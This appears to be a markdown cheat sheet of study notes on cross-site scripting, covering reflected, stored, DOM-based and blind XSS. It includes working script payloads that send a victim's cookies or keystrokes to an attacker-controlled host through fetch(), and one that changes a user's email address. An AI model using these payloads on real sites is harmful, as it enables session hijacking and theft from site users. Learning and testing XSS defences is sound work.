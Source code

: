 # Basic-XSS

## Proof Of Concept:
### Simplest of payloads - demonstrate that you can achieve XSS on a website. Done by causing an alert box to pop up on the page eg:

 `<script>alert('XSS');</script>`
 
 
## Session Stealing:

### Details of a user's session, are often kept in cookies on the targets machine. The below code takes the target's cookie, base64 encodes the cookie to ensure  transmission and then posts it to a website under the hacker's control to be logged. Hacker can then take over the target's session and be logged as that  user.

`<script>fetch('https://somesite.com/steal?cookie=' + btoa(document.cookie));</script>`


## Key Logger:
`<script>document.onkeypress = function(e) { fetch('https://somesite.com/log?key=' + btoa(e.key) );}</script>`


## Business Logic:

### This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called user.changeEmail(). Your payload could look like this:

`<script>user.changeEmail('attacker@hacker.com');</script>`

---


# Reflected XSS

### This happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

## Check for reflected XSS in:
1. Parameters in the URL Query String
2. URL File Path
3. Sometimes HTTP Headers (although unlikely exploitable in practice)

---

# Stored XSS

### XSS payload is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page.
### The malicious JavaScript could redirect users to another site, steal the user's session cookie, or perform other website actions while acting as the visiting user.

## Check for stored XSS where it seems data is stored and then shown back in areas that other users have access to eg:

1. Comments on a blog
2. User profile information
3. Website Listings

---

# DOM Based XSS

### JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code. Execution occurs when the website JavaScript code acts on input or user interaction. Crafted links could be sent to potential victims, redirecting them to another website or steal content from the page or the user's session.

---

# Blind XSS

### Payload gets stored on the website for another user to view, but in this instance, you can't see the payload working or be able to test it against yourself first.

### When testing for Blind XSS vulnerabilities,  need to ensure payload has a call back (usually an HTTP request)- can tell if code is being executed.

